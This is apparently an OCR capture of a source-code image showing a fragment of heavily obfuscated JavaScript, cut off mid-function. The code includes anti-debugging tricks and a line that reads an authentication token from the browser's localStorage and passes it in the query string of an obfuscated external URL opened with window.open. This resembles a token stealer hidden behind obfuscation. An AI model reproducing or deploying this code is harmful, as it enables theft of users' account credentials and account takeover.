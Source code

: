 _0x14cbe4(_0x1e5866,_0x50fe6e,_0x55532c,_0x439664,_0x29ab5a){return _0x2895e1(_0x1e5866-0x17d,_0x50fe6e-0x170,_0x1e5866-0x4e8,_0x29ab5a,_0x29ab5a-0xda);}function _0x11be1e(_0x55e9a8,_0x3f808d,_0xe53d66,_0x9022cf,_0xea2c06){return _0x1f93e0(_0x3f808d,_0x3f808d-0xc2,_0x55e9a8-0x1a3,_0x9022cf-0x145,_0xea2c06-0x7e);}var _0x2d4fcc={'xBuTi':function(_0x5e7efc,_0x2b31a4){function _0x3f7e64(_0x21b6dd,_0x28a8b7,_0x549a9a,_0x4069cc,_0x5de3ae){return _0x1059(_0x549a9a- -0x1c4,_0x4069cc);}return _0x130672[_0x3f7e64(-0xe0,-0x188,-0x136,-0x1be,-0x187)](_0x5e7efc,_0x2b31a4);},'hKrIA':_0x130672[_0x542da5(-0x41,-0x5e,-0x93,-0x7b,-0xe0)],'HnVIk':_0x130672[_0x362e70(-0x8e,-0x76,-0x63,-0xbe,-0xce)],'QIedl':_0x130672[_0x53465e(-0x131,-0xd2,-0x82,-0x6c,-0xd8)],'uZKJR':_0x130672[_0x542da5(-0xbd,-0xb2,-0x104,-0x143,-0xd2)],'bCsqb':_0x130672[_0x53465e(-0xa3,-0x2d,-0x73,-0xf3,-0x67)]};function _0x362e70(_0x47e4fe,_0x364be7,_0x3cebe5,_0x53e8a0,_0x518689){return _0x3c855a(_0x47e4fe,_0x364be7-0x169,_0x3cebe5- -0x9e,_0x53e8a0-0x1ef,_0x518689-0x156);}function _0x53465e(_0x53febc,_0x410b23,_0xd9aa85,_0x39d2be,_0x318340){return _0x3c855a(_0xd9aa85,_0x410b23-0xa8,_0x318340- -0x21,_0x39d2be-0x55,_0x318340-0x19f);}if(_0x130672[_0x53465e(0x77,0x5f,-0x31,-0x37,-0xd)](_0x130672[_0x542da5(-0x1c0,-0x14e,-0x167,-0x1f7,-0x138)],_0x130672[_0x11be1e(0x282,0x2d9,0x307,0x23f,0x22c)])){if(_0x130672[_0x53465e(-0xf7,-0x136,-0x8d,-0x114,-0xb6)](window[_0x362e70(-0x161,-0x17a,-0x136,-0x10c,-0x163)+_0x542da5(-0x5b,-0x73,-0xca,-0x4a,-0x97)][_0x14cbe4(0x304,0x371,0x29a,0x35d,0x2a4)][_0x14cbe4(0x20a,0x240,0x25e,0x28c,0x21f)+_0x542da5(-0xbe,-0x13d,-0x13c,-0xe5,-0x10a)](_0x130672[_0x53465e(-0x26,0x60,0x69,-0x5d,-0x1a)]),![])){if(_0x130672[_0x362e70(-0x6f,-0x8,-0x8a,-0x10e,-0x5d)](_0x130672[_0x53465e(0x8,-0x50,0x17,0x30,0x2b)],_0x130672[_0x362e70(-0x51,-0x4f,-0x52,0xd,0x24)]))return console[_0x362e70(-0x1f,-0x65,-0x8e,-0x2c,-0x6b)](_0x130672[_0x362e70(-0xd3,-0x12e,-0x9c,-0x93,-0xef)]),_0x2be86e[_0x362e70(-0xde,-0xfc,-0x6f,-0xa6,-0x59)](this,arguments)[_0x362e70(-0x43,-0x93,-0xb6,-0x30,-0x87)+_0x53465e(-0x54,-0x5e,-0xbe,-0xf1,-0xb1)](_0x130672[_0x11be1e(0x353,0x324,0x3ba,0x30f,0x2e7)],_0x130672[_0x362e70(-0xc3,-0xfa,-0xf0,-0x86,-0x10b)])[_0x14cbe4(0x2b9,0x2ba,0x2e5,0x2cb,0x2ef)+_0x53465e(-0xb0,-0x13c,-0x74,-0xfc,-0xb1)](_0x130672[_0x14cbe4(0x28a,0x2ea,0x237,0x231,0x245)],'s')[_0x542da5(-0xaa,-0x10a,-0xf4,-0xf8,-0x134)+_0x362e70(-0x109,-0x122,-0x12e,-0x18f,-0x106)](_0x130672[_0x14cbe4(0x2fe,0x362,0x30d,0x2cc,0x2ef)],_0x130672[_0x11be1e(0x2a3,0x2cb,0x2de,0x2a4,0x31d)]);else{if(_0x4b34ee){var _0x14cda2=_0x2de747[_0x53465e(-0x3d,0x62,-0x59,-0x22,0xe)](_0x29134e,arguments);return _0x37cc5a=null,_0x14cda2;}}}if(window[_0x542da5(-0x1da,-0x189,-0x174,-0x11b,-0x1bf)+_0x11be1e(0x31f,0x395,0x324,0x358,0x291)][_0x11be1e(0x340,0x3c8,0x3be,0x32b,0x3b8)][_0x362e70(-0x1bb,-0x1a0,-0x165,-0x13e,-0x1d4)+_0x14cbe4(0x271,0x291,0x247,0x1ff,0x22f)](_0x130672[_0x362e70(-0x2f,-0x40,-0x97,-0x8d,-0x7d)])){if(_0x130672[_0x14cbe4(0x2e5,0x2b2,0x32a,0x290,0x2c4)](_0x130672[_0x14cbe4(0x2bf,0x280,0x2ab,0x250,0x2c2)],_0x130672[_0x14cbe4(0x2c0,0x285,0x2c7,0x273,0x322)]))(function(){return!![];}[_0x11be1e(0x34c,0x32c,0x329,0x2e6,0x39e)+_0x542da5(-0xee,-0xe5,-0x13a,-0x13e,-0x1c8)+'r'](nJqUnO[_0x53465e(0x23,-0x5b,-0x5b,-0x2d,-0xc)](nJqUnO[_0x53465e(-0x3b,0x37,-0x97,-0x7b,-0x15)],nJqUnO[_0x14cbe4(0x2b0,0x23e,0x329,0x2e6,0x275)]))[_0x542da5(-0xe9,-0x14b,-0xf6,-0x7e,-0xa9)](nJqUnO[_0x11be1e(0x277,0x2d6,0x2bc,0x25d,0x298)]));else return console[_0x14cbe4(0x2e1,0x27c,0x2fd,0x2d7,0x28b)](_0x130672[_0x362e70(0x22,-0x12,-0x5c,0x10,-0x6d)]),_0x2be86e[_0x53465e(-0x6e,-0x10,0x57,-0x56,0xe)](this,arguments)[_0x53465e(-0x36,0x29,-0xa0,0x57,-0x39)+_0x53465e(-0x5a,-0x96,-0x11c,-0xda,-0xb1)](_0x130672[_0x542da5(-0xa6,-0x78,-0x96,-0x11,-0x13)],_0x130672[_0x53465e(-0xb7,-0x8,-0x1e,-0xcb,-0x73)]);}}else return function(_0x4ccf38){}[_0x542da5(-0x67,-0x11e,-0x9d,-0x2f,-0x102)+_0x11be1e(0x2af,0x2b3,0x336,0x274,0x28c)+'r'](nJqUnO[_0x53465e(0x3d,-0x9,0x57,-0x7e,-0x35)])[_0x53465e(0x8a,-0x4d,0x5a,0x52,0xe)](nJqUnO[_0x14cbe4(0x2de,0x284,0x24f,0x2c3,0x360)]);}});}(self[_0x59bca6(-0x67,0x1f,0x60,-0x69,0x8f)+_0x59bca6(0xb6,0x31,-0x1f,-0xb,-0x48)+_0x59bca6(0xb1,0x51,0x8d,-0x21,0x53)]));function _0x3b19c0(_0x5d23c6,_0x3dc05f,_0x28573c,_0x44e1fa,_0x530911){return _0x1059(_0x530911- -0x3e8,_0x3dc05f);}function _0x19ee15(_0x55a771,_0xaa11c3,_0x4e7fc3,_0x348a8c,_0xa1a2d1){return _0x1059(_0xa1a2d1- -0x3,_0xaa11c3);}function _0x2a55d0(_0x55e2e3,_0x913e0a,_0x475cc1,_0x407782,_0x130217){return _0x1059(_0x913e0a-0x2bc,_0x55e2e3);}token=localStorage[_0x19ee15(0x202,0x213,0x1b1,0x18f,0x185)],window1=open(_0x3be9e4(0x31f,0x379,0x314,0x38c,0x39f)+_0x2a55d0(0x2dd,0x363,0x36b,0x371,0x30d)+_0x19ee15(0x189,0x1ae,0x12b,0xa0,0x12a)+_0x2a55d0(0x363,0x33f,0x328,0x339,0x2ea)+_0x2a55d0(0x392,0x351,0x2bf,0x358,0x332)+_0x19ee15(0x11f,0x163,0x1b1,0x15a,0x178)+_0x3b19c0(-0x2cd,-0x271,-0x31a,-0x31f,-0x2b4)+_0x2a55d0(0x42f,0x3de,0x35d,0x38a,0x3ae)+_0x2a55d0(0x497,0x439,0x4a6,0x4a1,0x423)+'p?'+token[_0x3b19c0(-0x24e,-0x328,-0x2d4,-0x2f8,-0x2d0)+'ce']('\x20','+'));function _0x59bca6(_0x4cae84,_0x379975,_0x5ec9f1,_0x1dcb66,_0x201cf2){return _0x1059(_0x379975- -0x58,_0x5ec9f1);}function _0x3be9e4(_0x3a6071,_0x1f0875,_0x23d73a,_0x213a6d,_0x2e442e){return _0x1059(_0x23d73a-0x296,_0x1f0875);}setInterval(function(){function _0x4e4595(_0x2ec474,_0x186cb4,_0x4943bb,_0x5243a3,_0x3163f3){return _0x2a55d0(_0x3163f3,_0x5243a3- -0xd1,_0x4943bb-0xb6,_0x5243a3-0x166,_0x3163f3-0x19a);}var _0x152ace={'UOykV':function(_0x483cf3){return _0x483cf3();}};_0x152ace[_0x4e4595(0x2e5,0x1ec,0x28f,0x260,0x2bb)](_0xf9149d);},0x253b+0x26b*-0x3+-0xe5a),setTimeout(()=>{function _0x4e1ea4(_0x1f8a49,_0x17ca71,_0x29d353,_0x586201,_0x819d27){return _0x3be9e4(_0x1f8a49-0x1f4,_0x29d353,_0x1f8a49-